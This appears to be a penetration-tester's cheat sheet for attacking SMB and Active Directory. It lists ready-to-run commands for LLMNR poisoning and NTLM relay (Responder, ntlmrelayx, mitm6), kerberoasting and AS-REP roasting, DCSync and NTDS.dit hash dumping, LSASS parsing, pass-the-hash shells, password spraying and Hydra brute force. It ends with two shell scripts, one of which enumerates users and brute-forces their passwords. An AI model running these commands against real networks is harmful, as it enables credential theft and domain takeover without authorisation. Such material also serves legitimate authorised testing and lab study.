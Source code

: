 ## Strategy
- Quick wins: smbclient, cme, Responder, Impacket - dump and crack hashes
	- capture a hash, crack or pass the hash, use new logins to dump secrets, use local admin hashes to respray network
- Scan for versions and vulnerabilities (nmap, enum4linux)
	- check signing requirements first thing
- Put files and further scan (win/linpeas, pypykatz, mimikatz)
	- mimikatz is very loud
 - Attempt a shell (psexec.py, wmiexec.py, smbexec.py)
  		- `psexec.py domain.local/username:'Password'@10.0.0.12`
    	- `psexec.py username@10.0.0.12 -hashes [pastedhashtext]`
- Search through files for pertinent information and editable files
	- Enum programs being used to search for vulns and default creds
- searchsploit and metasploit
- If can get any credentials, attempt to dump LSASS, ldap and NTDS.dit
	- smbclient.py, ldapdomaindump, secretsdump.py (DCSync)
 		- `ntlmrelayx.py -6 -t ldaps://10.0.0.12 -wh fakewpad.dc.local -l ldapdump` with `mitm6 -d domain.local`
   		- `ldapdomaindump ldaps://dc.ip -u 'domain\username' -p Password1`
   			- use bloodhound to analyze ldap
      			- `bloodhound-python -u username -p password -d domain.local -ns 10.10.10.10 -c All` with neo4j console
         		- apt install bloodhound -> pip install bloodhound-python -> 'bloodhound' to access UI

## Nmap Scanning

- `nmap 10.0.0.12 --script=smb-enum*`
- `nmap 10.0.0.12 --script=smb-vuln*`
- `nmap 10.0.0.12 --script=smb-os*`
- `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.0.0.12`
- `nmap --script=smb2-security-mode.nse -p445 10.0.0.25 -Pn`
	- if message signing is required but not enabled:
 	- **Responder**: LLMNR Poisoning attack - update config files /etc/responder/Responder.conf updated to SMB=off and HTTP=off
  		- `ntlmrelayx.py -tf targetips.txt -smb2support`
    	- run together with
     	- `responder -I eth0 -dwP`
     	-  identifies a host when DNS fails to
    - **Impacket**: ASREPRoasting/kerberoasting attack - dummy request for authentication TGT -> NTLM hash
    - Key Distribution Center (KDC) of domain controller checkes authentication service request (AS-REQ). verifies the user info and returns encrypted Ticket Granting Ticket (TGT). TGT has timestamp encrypted with NTLM hash.
    	- Bash script
     		- `while read p; do GetNPUsers.py domain.local/"$p" -request -no-pass - dc-ip 10.0.0.12 >> hash.txt; done < unames.txt`


## If have rcpbind
- `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.10.10`
- `rpcclient -U "" [ip]`
- **commands**
  - rpcclient>srvinfo
  - rpcclient>enumdomusers
  - rpcclient>getdompwinfo

## Commands/Tools
- *crackmapexec*
	- `cme smb 10.10.10.10 -u [username] -p '[password]' --shares`
		- this will list out the available shares
	- `cme smb 10.10.10.10 -u users -H hashes`
 	- `crackmapexec smb 10.0.0.0/24 -u username -d domain.local -p Password1`
  	- `crackmapexec smb 10.0.0.0/24 -u username -H <hash> --local-auth --sam`
  		- also can do --shares --lsa --M lsassy
- *Smbclient*
	- `smbclient -L \\\\10.10.10.10\\`
	- `smbclient \\\\10.10.10.10\\ADMIN$`
	- `smbclient \\\\10.10.10.10\\IPC$`
	- `smbclient -L \\\\10.10.10.10\\`
	- `smbclient //10.10.10.10/anonymous`
	- Can recursively downlaod all the files here:
		- `smbget -R smb://10.10.10.10/anonymous`
	- `smbclient -L \\\\10.10.10.10\\anonymous`
	- `smbclient -U username \\\\10.10.10.10\\filename`
 	- *LSASS Dump*
		- `smbclient.py user:'password'@10.10.10.10`
    - `smbclient -N [\\\\10.10.10.10\\profiles$](file://10.10.10.10/profiles$) -c ls | awk '{ print $1 }'`
		- lists everything in the folder
- *Vuln scan*
	- `enum4linux -a -v 10.10.10.10`
		- if its a linux box
    - WinPEAS or LinPEAS
- *Hydra*
	- `hydra -l username -P passwordfile.txt smb://10.10.10.10 -t 4 -V`
- *Metasploit* for smb version
- *Evil-winrm* For a shell
	- if have `SeBackupPrivilege` is enabled can use evil-winrm
	- `evil-winrm -i 10.10.10.10 -u username -H hash`
- *Smbmap*
	- `smbmap -u {username} -p {password} -d {domain} -H 10.10.10.10`
	- add `-A '(xlsx|docx|txt|xml)' -R` at the end to crawl the users$ share
	- `smbmap -u guest -H 10.10.10.10`
- *Impacket*
	- secretsdump.py, wmiexec.py,
 	- `GetNPUsers.py domain.local/ -no-pass -userfiles users.txt -dc-ip 10.0.0.12 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'`
 	- `GetUserSPNs.py domain.local/username:Password1 -dc-ip 10.0.0.12 -request`
  	- `GetNPUsers.py domain.local/username -dc-ip 10.10.10.161 -no-pass`
 	- `secretsdump.py domain.local/username:'Password1'@dc.ip -just-dc-ntlm`
  	- `secretsdump.py domain/username:Password1@10.0.0.12`
  	- `secretsdump.py username:@10.0.0.12 --hashes NTLM_hash`
  	- `secretsdump.py -ntds NTDS.dit -system system.hive LOCAL`
- *pypykatz*
	- pip3 install pypykatz
	- `pypykatz lsa minidump lsass.DMP`
	- pypykatz to extract and crackmapexec to spray
	- `pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort - u > users` `
 - *Searchploit* samba verisons

**SMB Commands**
```
- ls
- dir
- cd
- history
- put
- get
- mget
- more
- pwd
- start
- open
- rename
- chmod
- getfacl
- echo
- cancel
- close
- exit
- recurse
- showacls
- vuid
```

# Scripts

## smbver.sh
```
#!/bin/sh
#Author: rewardone
#Description:
# Requires root or enough permissions to use tcpdump
# Will listen for the first 7 packets of a null login
# and grab the SMB Version
#Notes:
# Will sometimes not capture or will print multiple
# lines. May need to run a second time for success.
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
sleep 0.5 && echo ""
```

## smbenum.sh
```
#!/bin/bash
# smbenum 0.2 - This script will enumerate SMB using every tool in the arsenal
# SECFORCE - Antonio Quina
# All credits to Bernardo Damele A. G. <bernardo.damele@gmail.com> for the ms08-067_check.py script

IFACE="eth0"

if [ $# -eq 0 ]
    then
        echo "Usage: $0 <IP>"
        echo "eg: $0 10.10.10.10"
        exit
    else
        IP="$1"
fi

echo -e "\n########## Getting Netbios name ##########"
nbtscan -v -h $IP

echo -e "\n########## Checking for NULL sessions ##########"
output=`bash -c "echo 'srvinfo' | rpcclient $IP -U%"`
echo $output

echo -e "\n########## Enumerating domains ##########"
bash -c "echo 'enumdomains' | rpcclient $IP -U%"

echo -e "\n########## Enumerating password and lockout policies ##########"
polenum $IP

echo -e "\n########## Enumerating users ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-users $IP
bash -c "echo 'enumdomusers' | rpcclient $IP -U%"
bash -c "echo 'enumdomusers' | rpcclient $IP -U%" | cut -d[ -f2 | cut -d] -f1 > /tmp/$IP-users.txt

echo -e "\n########## Enumerating Administrators ##########"
net rpc group members "Administrators" -I $IP -U%

echo -e "\n########## Enumerating Domain Admins ##########"
net rpc group members "Domain Admins" -I $IP -U%

echo -e "\n########## Enumerating groups ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-groups $IP

echo -e "\n########## Enumerating shares ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-shares $IP

echo -e "\n########## Bruteforcing all users with 'password', blank and username as password"
hydra -e ns -L /tmp/$IP-users.txt -p password $IP smb -t 1
rm /tmp/$IP-users.txt
```
